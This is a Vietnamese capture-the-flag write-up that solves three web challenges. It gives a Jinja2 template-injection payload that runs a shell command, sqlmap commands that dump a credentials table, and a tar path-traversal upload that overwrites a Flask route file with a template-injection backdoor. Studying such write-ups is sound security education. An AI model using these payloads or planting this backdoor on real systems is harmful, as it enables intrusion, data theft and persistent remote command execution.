 # universe (Bài league of legend theme)
- Bài này bị server side template injection 
- Chúng ta có thể test {{1+1}} -> Print ra 2
- Payload: 
    {{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}

Flag: PISCTF{s0_3zsy_SSTI_F0R_K1d}
# sql-route
- Bài này chúng ta có thể dùng sqlmap vào Post endpoint để tìm lỗ hổng

Check sơ bộ:
   `sqlmap --dbms=mysql -u "http://54.169.55.172:1001/" --data "username=*" --dbs --level=5 --risk=3`

Sau khi biết được tên của db:
`sqlmap --dbms=mysql -u "http://54.169.55.172:1001/" --data "username=admin" -D "ctf" --tables`

Dump data:
`sqlmap --dbms=mysql -u "http://54.169.55.172:1001/" --data "username=admin" -D "ctf" -T "flag" --dump`
+----+------------+-------------------+----------+
| id | pass       | email             | username |
+----+------------+-------------------+----------+
| 1  | superpass  | jean@gmail.net    | jean     |
| 2  | mypass     | michael@gmail.net | michael  |
| 3  | qs89QdAs9A | admin@gmail.net   | admin    |
+----+------------+-------------------+----------+
Flag: PISCTF{qs89QdAs9A}
# firmware
- Thoạt đầu nhìn vô bài này thì tricky hơn các bài trên, nhưng chúng ta có thể đoán được là mình cần tạo payload bằng file tar.gz để inject
- Phân tích code:

```python
import tarfile, tempfile, os
from application import main

generate = lambda x: os.urandom(x).hex()

def extract_from_archive(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)
    print(f'TMP: {tmp}' , flush=True)
    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp) <-- Vulnerbility ở đây

        extractdir = f'{main.app.config["UPLOAD_FOLDER"]}/{generate(15)}'
        os.makedirs(extractdir, exist_ok=True)

        extracted_filenames = []
        print(f'Tar: {tar}', flush=True)

        for tarinfo in tar:
            name = tarinfo.name
            print(f'Name: {name}', flush=True)
            if tarinfo.isreg():
                filename = f'{extractdir}/{name}'
                os.rename(os.path.join(tmp, name), filename)
                extracted_filenames.append(filename)
                continue
            
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)

        tar.close()
        return extracted_filenames

    return False
```

- Và nghiên cứu thêm, thì tarfile có lỗ hổng bảo mật khi không check path traversal
nên chúng ta có thể có file tar với folder như "../../../abc/abc" thì lúc gọi extractall, nó sẽ extract vô folder mà ta muốn
- Vậy thì ý tưởng là chúng ta sẽ ghi đè 1 file trong application, ở đây mình ghi đè file routes.py, để mở backdoor cho chúng ta lấy flag


    from flask import Blueprint, request, render_template, abort, render_template_string
    from application.util import extract_from_archive
    
    web = Blueprint('web', __name__)
    api = Blueprint('api', __name__)
    
    @web.route('/')
    def index():
        return render_template('index.html')
    
    @api.route('/unslippy', methods=['POST'])
    def cache():
        if 'file' not in request.files:
            return abort(400)
        
        extraction = extract_from_archive(request.files['file'])
        if extraction:
            return {"list": extraction}, 200
    
        return '', 204
    
    @web.route('/exec')
    def run_cmd():
        try:
            return render_template_string(request.args.get('cmd'))
        except:
            return "Exit"
Sau đó làm sao để forge file tar, thì sau khi Google 1 hồi mình tìm có 2 cách:
- 1 là dùng absolute name trong tar trên kali
- 2 dùng script: https://github.com/ptoomey3/evilarc

Câu lệnh như sau:
- ``python evilarc.py routes.py -o unix -f flag.tar.gz -p ../../../../../../../../app/application/blueprints/ -d 0 ``

Sau khi có dc file tar, chúng ta upload lên và có được đường link /exec để backdoor,
Cách thức lấy flag tương tự bài 1
Flag: PISCTF{p1s_f1rmvv@r3_7l@g}
